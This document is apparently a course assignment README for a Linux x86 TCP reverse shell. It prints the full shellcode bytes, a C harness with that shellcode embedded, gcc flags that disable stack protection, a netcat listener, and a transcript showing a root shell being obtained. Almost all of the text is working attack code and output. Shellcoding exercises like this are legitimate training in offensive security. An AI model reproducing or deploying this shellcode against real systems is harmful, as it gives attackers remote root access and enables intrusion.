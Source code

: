 # Assignment 2: Linux x86 TCP Reverse Shell

To generate the shellcode, run the python wrapper script `tcp_reverse_shell_x86.py` and supply alistening host and port:

```bash
python3 tcp_reverse_shell_x86.py -l 192.168.105.151 -p 4444
[*] Generating shellcode for x86 TCP reverse shell on 192.168.105.151:4444
[*] Shellcode length: 104 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

Copy the shellcode output and paste into the `code` variable of `shellcode.c`:

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
...
```

Compile the shellcode using gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Start a netcat listener on the remote host:

```bash
nc -nlvp 4444                                                                                                                           1 ⨯
listening on [any] 4444 ...
```

Run the compiled binary:

```bash
./shellcode 
Shellcode Length: 116
```

Connect to the reverse shell over the chosen port using netcat:

```bash
nc -nlvp 4444                                  
listening on [any] 4444 ...
connect to [192.168.105.151] from (UNKNOWN) [192.168.105.151] 46240
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---

